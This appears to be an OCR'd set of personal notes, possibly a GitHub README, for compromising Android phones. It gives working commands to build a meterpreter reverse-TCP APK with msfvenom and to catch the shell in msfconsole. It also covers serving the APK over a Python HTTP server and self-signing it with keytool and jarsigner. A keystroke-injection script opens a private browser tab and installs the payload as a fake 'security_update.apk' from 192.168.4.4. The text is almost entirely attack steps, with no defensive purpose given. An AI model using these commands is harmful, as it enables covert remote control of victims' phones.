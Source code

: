 # Android Hackfuckin
## Meterpreter
`msfvenom --payload android/meterpreter_reverse_tcp LHOST=10.0.0.51 LPORT=443 R > rawdoggin_output.apk`

## Msfconsole
```
sudo msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload android/meterpreter_reverse_tcp
msf exploit(handler) > set lhost 10.0.0.51
msf exploit(handler) > set lport 443
msf exploit(handler) > exploit -j
```

## Python Shitfuckery
`python -m http.server 8787`

## Self Sign an apk
### Install tools
1. `sudo apt update`
2. `sudo apt install apktool gnupg2 android-tools-adb default-jdk -y`
### Create Signing Key
* `keytool -genkey -v -keystore android.keystore -alias android -keyalg RSA -keysize 2048 -validity 10000`
### Sign Apk
* `jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore android.keystore my_app.apk android`


## Some Shit
```
TAB
DELAY 250
GUI b
DELAY 800
CTRL SHIFT n
DELAY 500
CTRL l
DELAY 1000
STRING 192.168.4.4:9002/security_update.apk
ENTER
DELAY 7000
TAB
TAB
DOWN
RIGHT
ENTER
DELAY 1000
TAB
ENTER
TAB
TAB
RIGHT
ENTER
TAB
ENTER
TAB
ENTER
DELAY 2000
TAB
ENTER
TAB
TAB
TAB
TAB
TAB
TAB
TAB
TAB
DELAY 350
TAB
ENTER
DELAY 350
ENTER
```